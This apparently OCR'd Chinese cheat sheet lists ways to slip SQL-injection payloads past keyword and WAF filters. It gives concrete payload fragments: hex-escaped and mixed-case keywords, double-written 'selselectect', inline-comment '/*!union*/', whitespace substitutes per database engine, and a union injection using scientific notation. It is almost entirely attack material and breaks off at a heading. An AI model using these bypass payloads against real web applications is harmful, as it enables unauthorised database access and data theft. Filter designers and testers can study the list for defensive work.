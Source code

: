 ### 十六进制字符绕过

select ——> selec\x74
union——>unio\x6e

### 大小写绕过

SelEct

### 双写绕过

selselectect
uniunionon

urlencode，ascii(char)，hex，unicode编码绕过

### 关键字内联绕所有

/*!union*/
/*!select*/

## 过滤空格

用Tab代替空格%20 %09 %0a %0b %0c %0d %a0 /**/()
绕过空格注释符绕过//--%20/**/#--+-- -;%00;

### 空白字符绕过SQLite3  ——     0A,0D,0c,09,20

MYSQL
09,0A,0B,0B,0D,A0,20
PosgressSQL
0A,0D,0C,09,20
Oracle_11g
00,0A,0D,0C,09,20
MSSQL
01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,OF,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20

### 特殊符号绕过

`  +  ！

###  科学计数法绕过

例：
select user,password from users where user_id0e1union select 1,2

### unicode编码

%u0020 %uff00
%c0%20 %c0%a0 %e0%80%a0

## 过滤=
